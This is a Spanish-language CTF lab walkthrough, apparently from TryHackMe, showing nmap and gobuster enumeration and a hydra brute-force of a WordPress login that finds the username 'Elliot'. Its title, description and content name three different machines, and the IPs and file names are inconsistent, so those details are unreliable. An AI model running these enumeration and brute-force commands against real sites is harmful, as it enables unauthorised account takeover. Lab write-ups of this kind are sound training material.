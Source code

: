 # Resolución de la Máquina: Bounty Hacker

- **Plataforma:** TryHackMe
- **Dificultad:** Medio
- **Fecha de resolución:** 25/06/2025
- **Sistema Operativo:** Linux


## Descripción

RootMe es una máquina de nivel introductorio diseñada para enseñar conceptos básicos de enumeración web,
explotación remota y escalada de privilegios en sistemas Linux. Es ideal para principiantes que buscan familiarizarse con el flujo típico de un ataque en entornos CTF.

Esta máquina es especialmente útil para:

> Enumeración de servicios expuestos

> Explotación de vulnerabilidades web (RCE)

> Ganancia de acceso inicial (low privilege shell)

> Escalada de privilegios mediante binarios SUID mal configurados

## Enumeración

### Escaneo con Nmap

```bash
─$ nmap --open -sS -T5 -n -sV -Pn 10.10.39.168 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-25 18:34 CEST
Nmap scan report for 10.10.39.168
Host is up (0.092s latency).
Not shown: 997 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.39 seconds
```
### Escaneo con gobuster

```bash
└─$ gobuster dir -u http://10.10.39.168/ -w /usr/share/wordlists/wfuzz/general/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.39.168/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/robots               (Status: 200) [Size: 41]
/admin                (Status: 301) [Size: 234] [--> http://10.10.39.168/admin/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.39.168/blog/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.39.168/css/]
/images               (Status: 301) [Size: 235] [--> http://10.10.39.168/images/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.39.168/js/]
/intro                (Status: 200) [Size: 516314]
/login                (Status: 302) [Size: 0] [--> http://10.10.39.168/wp-login.php]
/phpmyadmin           (Status: 403) [Size: 94]
/readme               (Status: 200) [Size: 64]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.39.168/feed/]
/sitemap              (Status: 200) [Size: 0]
/xmlrpc               (Status: 405) [Size: 42]
Progress: 952 / 953 (99.90%)
===============================================================
Finished
===============================================================
```
En robots.txt encontraremos un diccionario junto a la primera flag, para visualizarlo lo haremos como si de un sitio web más se tratase.
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Con un wget nos descargaremos este diccionario, lo limpiaremos debido a que hay muchas lineas repetidas.
```bash
wget http://10.10.196.195/fsocity.dic
sort -u archivo.txt > archivo_sin_repetidos.txt
```
Haremos un ataque de fuerza bruta con hydra únicamnete hacia el usuario, veremos que si el usuario existe el codigo de error es diferente y nos lo detecta.
Los parámetros del forumalario los podemos verificar enviando la petición de login hacia burpsuite.
```bash
└─$ hydra -I -L fsocity_clean.dic -p x 10.10.196.195 https-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submitLog%20In&testcookie=1:F=Invalid username" -t30
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizatins, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-25 23:02:24
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:11452/p:1), ~382 tries per task
[DATA] attacking http-post-forms://10.10.196.195:443/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log%20In&testcooke=1:F=Invalid username
[STATUS] 1365.00 tries/min, 1365 tries in 00:01h, 10087 to do in 00:08h, 30 active
[STATUS] 1106.33 tries/min, 3319 tries in 00:03h, 8133 to do in 00:08h, 30 active
[443][http-post-form] host: 10.10.196.195   login: Elliot   password: x
[443][http-post-form] host: 10.10.196.195   login: elliot   password: x
[443][http-post-form] host: 10.10.196.195   login: ELLIOT   password: x
[STATUS] 1028.86 tries/min, 7202 tries in 00:07h, 4250 to do in 00:05h, 30 active

```
